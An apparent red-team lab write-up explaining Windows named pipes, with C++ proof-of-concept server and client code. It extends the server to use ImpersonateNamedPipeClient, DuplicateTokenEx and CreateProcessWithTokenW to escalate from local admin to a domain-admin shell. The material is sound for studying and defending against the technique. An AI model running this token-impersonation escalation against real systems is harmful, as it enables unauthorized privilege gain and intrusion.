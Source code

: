 # Windows NamedPipes 101 + Privilege Escalation

## Overview

A `pipe` is a block of shared memory that processes can use for communication and data exchange.

`Named Pipes` is a Windows mechanism that enables two unrelated processes to exchange data between themselves, even if the processes are located on two different networks. It's very simar to client/server architecture as notions such as `a named pipe server` and a named `pipe client` exist.

A named pipe server can open a named pipe with some predefined name and then a named pipe client can connect to that pipe via the known name. Once the connection is established, data exchange can begin.

This lab is concerned with a simple PoC code that allows:

* creating a single-threaded dumb named pipe server that will accept one client connection
* named pipe server to write a simple message to the named pipe so that the pipe client can read it

## Code

Below is the PoC for both the server and the client:

{% tabs %}
{% tab title="namedPipeServer.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>
#include <iostream>

int main() {
    LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
    LPVOID pipeBuffer = NULL;
    HANDLE serverPipe;
    DWORD readBytes = 0;
    DWORD readBuffer = 0;
    int err = 0;
    BOOL isPipeConnected;
    BOOL isPipeOpen;
    wchar_t message[] = L"HELL";
    DWORD messageLenght = lstrlen(message) * 2;
    DWORD bytesWritten = 0;

    std::wcout << "Creating named pipe " << pipeName << std::endl;
    serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);

    isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
    if (isPipeConnected) {
        std::wcout << "Incoming connection to " << pipeName << std::endl;
    }

    std::wcout << "Sending message: " << message << std::endl;
    WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);

    return 0;
}
```
{% endtab %}

{% tab title="namedPipeClient.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

const int MESSAGE_SIZE = 512;

int main()
{
    LPCWSTR pipeName = L"\\\\10.0.0.7\\pipe\\mantvydas-first-pipe";
    HANDLE clientPipe = NULL;
    BOOL isPipeRead = true;
    wchar_t message[MESSAGE_SIZE] = { 0 };
    DWORD bytesRead = 0;

    std::wcout << "Connecting to " << pipeName << std::endl;
    clientPipe = CreateFile(pipeName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    while (isPipeRead) {
        isPipeRead = ReadFile(clientPipe, &message, MESSAGE_SIZE, &bytesRead, NULL);
        std::wcout << "Received message: " << message;
    }

    return 0;
}
```
{% endtab %}
{% endtabs %}

## Execution

Below shows the named pipe server and named pipe client working as expected:

![](../../.gitbook/assets/screenshot-from-2019-04-02-23-44-22.png)

Worth nothing that the named pipes communication by default uses SMB protocol:

![](../../.gitbook/assets/screenshot-from-2019-04-04-23-51-48.png)

Checking how the process maintains a handle to our named pipe `mantvydas-first-pipe`:

![](../../.gitbook/assets/screenshot-from-2019-04-06-14-40-57.png)

Similary, we can see the client having an open handle to the named pipe:

![](../../.gitbook/assets/screenshot-from-2019-04-06-14-59-41.png)

We can even see our pipe with powershell:

```csharp
((Get-ChildItem \\.\pipe\).name)[-1..-5]
```

![](../../.gitbook/assets/screenshot-from-2019-04-06-15-09-05.png)

## Token Impersonation

It is possible for the named pipe server to impersonate the named pipe client's security context by leveraging a `ImpersonateNamedPipeClient` API call which in turn changes the named pipe server's current thread's token with that of the named pipe client's token.

We can update the the named pipe server's code like this to achieve the impersonation - note that modifications are seen in line 25 and below:

```cpp
int main() {
    LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
    LPVOID pipeBuffer = NULL;
    HANDLE serverPipe;
    DWORD readBytes = 0;
    DWORD readBuffer = 0;
    int err = 0;
    BOOL isPipeConnected;
    BOOL isPipeOpen;
    wchar_t message[] = L"HELL";
    DWORD messageLenght = lstrlen(message) * 2;
    DWORD bytesWritten = 0;

    std::wcout << "Creating named pipe " << pipeName << std::endl;
    serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);

    isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
    if (isPipeConnected) {
        std::wcout << "Incoming connection to " << pipeName << std::endl;
    }

    std::wcout << "Sending message: " << message << std::endl;
    WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);

    std::wcout << "Impersonating the client..." << std::endl;
    ImpersonateNamedPipeClient(serverPipe);
    err = GetLastError();    

    STARTUPINFO    si = {};
    wchar_t command[] = L"C:\\Windows\\system32\\notepad.exe";
    PROCESS_INFORMATION pi = {};
    HANDLE threadToken = GetCurrentThreadToken();
    CreateProcessWithTokenW(threadToken, LOGON_WITH_PROFILE, command, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);

    return 0;
}
```

Running the server and connecting to it with the client that is running under administrator@offense.local security context, we can see that the main thread of the named server pipe assumed the token of the named pipe client - offense\administrator, although the PipeServer.exe itself is running under ws01\mantvydas security context. Sounds like a good way to escalate privileges?

![](../../.gitbook/assets/screenshot-from-2019-04-07-18-00-49.png)

Not so fast - unfortunately, I was not able to properly duplicate the token and use it to our advantage with the following code:

```cpp
    HANDLE 
        threadToken = NULL,
        duplicatedToken = NULL;

    OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, false, &threadToken);
    DuplicateTokenEx(threadToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicatedToken);
    err = GetLastError();
    CreateProcessWithTokenW(duplicatedToken, 0, command, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
```

For some reason, the DuplicateTokenEx call would return an error `1346 ERROR_BAD_IMPERSONATION_LEVEL` and I could not figure out what the issue was, so if you know, I would like to hear from you.

### Update \#1

I was contacted by [Raymond Roethof](https://www.thalpius.com) and [@exist91240480](https://twitter.com/exist91240480) \(huge thank you both!\) and they suggested that my named pipe server was not holding `SeImpersonatePrivilege`which was causing the `ERROR_BAD_IMPERSONATION_LEVEL` when calling `DuplicateTokenEx`. Once the server hold the required privilege, everything worked as expected.

Note how `PipeServer.exe` running as a local admin `ws01\mantvydas` spawned a cmd shell with domain admin privileges `offense\administrator`- due to successfull token impersonation via named pipes:

![](../../.gitbook/assets/screenshot-from-2019-05-06-12-59-57.png)

{% hint style="info" %}
Note that this technique is used by meterpreter when attempting to escalate privileges when `GetSystem` command is used.. The same technique is used in the `PowerUp`.
{% endhint %}

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/ipc/interprocess-communications" caption="" %}

